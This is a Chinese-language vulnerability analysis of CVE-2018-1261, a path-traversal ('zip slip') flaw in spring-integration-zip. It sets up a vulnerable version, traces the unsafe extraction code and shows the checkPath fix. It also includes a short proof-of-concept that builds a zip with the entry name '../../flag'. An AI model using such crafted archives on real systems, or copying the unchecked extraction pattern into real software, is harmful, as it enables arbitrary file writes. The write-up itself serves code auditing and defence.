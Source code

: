 
## **漏洞公告**

CVE-2018-1261：具有spring-integration-zip的不安全解压缩

危害等级：高

漏洞描述：

spring-integration-zip 部分版本暴露了一个任意的文件写入漏洞，可以使用特制的zip压缩文件（也影响其他压缩文件，bzip2，tar，xz，war，cpio，7z）来实现，该压缩文件包含路径遍历文件名。 所以当文件名被连接到目标提取目录时，最终路径会在目标文件夹之外结束。
这只有在使用这个库的应用程序接受并解包不受信任的zip文件时才会发生。

## **环境搭建**

### ***1、新建 maven 项目***

在 pom 文件中加入

```java
<!-- https://mvnrepository.com/artifact/org.springframework.integration/spring-integration-zip -->
<dependency>
    <groupId>org.springframework.integration</groupId>
    <artifactId>spring-integration-zip</artifactId>
    <version>1.0.0.RELEASE</version>
</dependency>
```


maven 会自动下载其他三个依赖的包：```spring-integration-core(4.3.10.RELEASE)```、```spring-integration-file(4.3.10.RELEASE)```、```zt-zip(1.11)```

### ***2、解压代码***
```java
public class CVE_2018_1261 {
    public static void main(String[] args){
        UnZipTransformer();
    }
    private static void  UnZipTransformer(){
        final UnZipTransformer unZipTransformer = new UnZipTransformer(); //创建 UnZipTransformer 解压对象
        unZipTransformer.setWorkDirectory(new File("F:\\java\\spring\\spring-integration-extensions-zip\\work")); //设置解压目录
        unZipTransformer.setZipResultType(ZipResultType.FILE); //设置解压结果类型
        unZipTransformer.afterPropertiesSet(); //加载配置文件 spring-integration-core-4.3.10.RELEASE.jar!\META-INF\spring.integration.default.properties,可以去掉这一行
        final Message<File> message = MessageBuilder.withPayload(new File("F:\\java\\spring\\spring-integration-extensions-zip\\xxxx.zip")).build(); //创建 Message 对象
        unZipTransformer.transform(message); //根据 message 对象做解压操作
    }
}
```

```java
final Message<File> message = MessageBuilder.withPayload(new File("F:\\java\\spring\\spring-integration-extensions-zip\\xxxx.zip")).build(); 
```

上面代码会生成 Message 对象，里面主要封装了一个 File 对象和一个 MessageHeaders 对象， File 对象为要解压的文件，MessageHeaders 对象中的 id 为解压文件所放置的子目录名称(随机生成)

![image.png](CVE-2018-1261-Unsafe-Unzip-with-spring-integration-zip/182.png)

然后调用 UnZipTransformer 对象的 transform 方法做解压操作，最终做解压操作的是 doZipTransform 方法
在 68 行调用 ZipUtil.iterate 方法，传入解压文件的输入流和 ZipEntryCallback 对象

iterate 方法根据输入流创建 ZipInputStream 输入流对象，然后遍历获取 ZipEntry 对象并调用 ZipEntryCallback 对象的 proccess 方法，传入 ZipInputStream 输入流对象和 ZipEntry 对象

```java
public static void iterate(InputStream is, ZipEntryCallback action, Charset charset) {
    try {
        ZipInputStream in = null;
        if (charset == null) {
            in = new ZipInputStream(new BufferedInputStream(is));
        } else {
            in = ZipFileUtil.createZipInputStream(is, charset);
        }

        ZipEntry entry;
        while((entry = in.getNextEntry()) != null) {
            try {
                action.process(in, entry);
            } catch (IOException var6) {
                throw new ZipException("Failed to process zip entry '" + entry.getName() + " with action " + action, var6);
            } catch (ZipBreakException var7) {
                break;
            }
        }

    } catch (IOException var8) {
        throw ZipExceptionUtil.rethrow(var8);
    }
}
```

解压代码中我们设置解压结果类型为 ZipResultType.FILE，所以在 process 方法中会进入下面语句处理逻辑。首先根据解压目录和 Message 对象中的 MessageHeaders 对象中的 id 值创建目录。然后根据压缩文件中的文件名创建 File 对象，最终调用 IOUtils 类的 copyLarge 方法将内容写入文件。因为会根据压缩文件中的文件名创建文件，所以当文件名是 "..\" 时，会造成任意目录写入

```java
if (ZipResultType.FILE.equals(UnZipTransformer.this.zipResultType)) {
    File tempDir = new File(UnZipTransformer.this.workDirectory, message.getHeaders().getId().toString());
    tempDir.mkdirs();
    File destinationFile = new File(tempDir, zipEntryName);
    if (zipEntry.isDirectory()) {
        destinationFile.mkdirs();
    } else {
        SpringZipUtils.copy(zipEntryInputStream, destinationFile);
        uncompressedData.put(zipEntryName, destinationFile);
    }
}
```

## **漏洞修复**

在 1.0.2.RELEASE 版本中加入了 checkPath 方法。该方法会将最终写入文件的路径和解压文件目录做判断，最终只能在解压文件目录中写入文件。

```java
public File checkPath(Message<?> messagex, String zipEntryName) throws IOException {
    File tempDir = new File(UnZipTransformer.this.workDirectory, messagex.getHeaders().getId().toString());
    tempDir.mkdirs();
    File destinationFile = new File(tempDir, zipEntryName);
    if (!destinationFile.getCanonicalPath().startsWith(UnZipTransformer.this.workDirectory.getCanonicalPath())) {
        throw new ZipException("The file " + zipEntryName + " is trying to leave the target output directory of " + UnZipTransformer.this.workDirectory);
    } else {
        return destinationFile;
    }
}
```

## **POC**

可以使用 ZipTransformer 生成 POC

```java
private static void  zipTransformer(){
    final ZipTransformer zipTransformer = new ZipTransformer(); //创建 ZipTransformer 压缩对象
    zipTransformer.setWorkDirectory(new File("F:\\java\\spring\\spring-integration-extensions-zip\\work")); //设置压缩的 work 目录
    zipTransformer.afterPropertiesSet(); //创建 Properties 对象，使用其生成的 this.fileNameGenerator 对象获取 baseFileName
    zipTransformer.setUseFileAttributes(false); //设置 UseFileAttributes 为 false，用自定义的 EntryFileName

    final String zipEntryFileName = "../../flag"; //设置自定义的 EntryFileName
    Message<File> message = MessageBuilder.withPayload(new File("F:\\java\\spring\\spring-integration-extensions-zip\\aaa.txt")).setHeader(ZipHeaders.ZIP_ENTRY_FILE_NAME, zipEntryFileName).build(); //设置要压缩的文件
    zipTransformer.transform(message); //做压缩
}
```

会生成 aaa.txt.zip 文件

![image.png](CVE-2018-1261-Unsafe-Unzip-with-spring-integration-zip/188.png)


## **总结**

在进行代码审计中可以查看在解压时是否使用了 in.getNextEntry().getName() 做了文件名拼接

## **参考**
https://github.com/spring-projects/spring-integration-extensions/commit/a5573eb232ff85199ff9bb28993df715d9a19a25